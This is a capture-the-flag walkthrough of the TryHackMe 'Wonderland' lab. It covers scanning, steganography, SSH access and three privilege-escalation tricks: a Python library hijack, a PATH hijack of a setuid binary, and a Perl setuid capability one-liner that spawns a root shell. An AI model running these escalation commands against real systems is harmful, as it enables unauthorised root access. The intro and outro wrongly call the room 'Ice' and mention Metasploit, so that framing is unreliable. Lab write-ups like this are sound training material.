

# TryHackMe - Wonderland
Fall down the rabbit hole and enter wonderland.

This walkthrough will guide you through the "Ice" challenge on Try Hack Me. The challenge involves enumeration, exploiting outdated software, using Metasploit, and performing privilege escalation on a Linux system.

### Task 1: Initiate the VPN Connection and Deploy the Machine
Connect to the Try Hack Me VPN using your configuration file:

    sudo openvpn <your_config_file>.ovpn
Deploy the target machine and wait for it to start.

### Task 2: Enumeration

    nmap -sC -sV -oA nmap/all-tcp 10.10.144.93
Analyze the scan results:

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
    Visit the web server on port 80 and take note of any clues or interesting pages.

Perform a directory scan using ffuf to find hidden directories:

    ffuf -u http://10.10.144.93/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt

Results:

    img                     [Status: 301, Size: 0, Words: 1, Lines: 1]
    poem                    [Status: 301, Size: 0, Words: 1, Lines: 1]
    r                       [Status: 301, Size: 0, Words: 1, Lines: 1]

Download the image from the /img directory and analyze it for hidden data:

    wget http://10.10.144.93/img/white_rabbit_1.jpg
    steghide extract -sf white_rabbit_1.jpg
Enter passphrase: (leave blank or as instructed)
Content of hint.txt:

    follow the r a b b i t

### Task 3: Getting Access
Follow the hint by checking the /r directory on the web server. View the source to find credentials.

Use the found credentials to SSH into the box:

    ssh alice@10.10.144.93
Notice the presence of root.txt in Alice’s directory:

    ls -la
Retrieve the user flag:

    cat /root/user.txt

### Task 4: Privilege Escalation
Check your sudo privileges:

    sudo -l

    User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

Analyze the walrus_and_the_carpenter.py script and exploit it by creating a malicious random.py:

    echo "import os; os.system('/bin/bash')" > random.py
    sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py

Verify that you have escalated to the rabbit user:

    whoami
Check for any setuid binaries in the rabbit home directory:

    ls -l
Exploit the teaParty binary by manipulating the PATH:

    export PATH=/tmp:$PATH
    echo -e "#!/bin/bash\n/bin/bash" > /tmp/date
    chmod +x /tmp/date
    ./teaParty

Verify the escalation to the hatter user:

    whoami

Find the password for the hatter user and SSH into the machine:

    ssh hatter@10.10.144.93
Exploit the capabilities of Perl to escalate to root:

    getcap -r / 2>/dev/null
    perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
Verify root access and retrieve the root flag:

    whoami
    cat /home/alice/root.txt

This concludes the walkthrough for the "Ice" challenge on Try Hack Me. By following these steps, you have successfully performed enumeration, exploited software vulnerabilities, and achieved privilege escalation on the target system. Happy hacking;>

